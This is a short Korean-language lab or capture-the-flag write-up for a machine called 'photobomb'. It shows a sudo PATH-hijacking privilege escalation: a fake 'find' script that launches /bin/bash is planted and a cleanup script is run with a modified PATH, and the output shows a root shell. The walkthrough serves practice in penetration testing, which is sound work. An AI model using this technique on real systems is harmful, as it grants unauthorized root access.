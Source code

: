  맨 마지막 코드에서 권한 상승이 발생할 수 있습니다.
 해당 명령어는 소유자가 source_images 폴더에서 root인 jpg파일을 찾습니다.
 ~~~bash
 find source_images -type f -name '*.jpg' -exec chown root:root {} \;
 ~~~
 

~~~bash
wizard@photobomb:~$ echo "/bin/bash" > find 
//현재 디렉토리에 find 파일을 만듬

wizard@photobomb:~$ chmod +x find
//find에 실행권한 부여

wizard@photobomb:~$ echo "sudo PATH=$PWD:$PATH /opt/cleanup.sh
//기존 환경변수에 $PWD 추가함
//find 함수는 상대경로를 이용하여 파일을 찾는데 환경변수 PWD등록하므로 현재 디렉토리에 find 파일이 먼저 실행되므로 /bin/bash가 실행되어 권한상승이 일어남

wizard@photobomb:~$ id
id uid=0(root) gid=0(root) groups=0(root)
~~~ 


## 후기
많이 부족하므로 더 열심히 하자
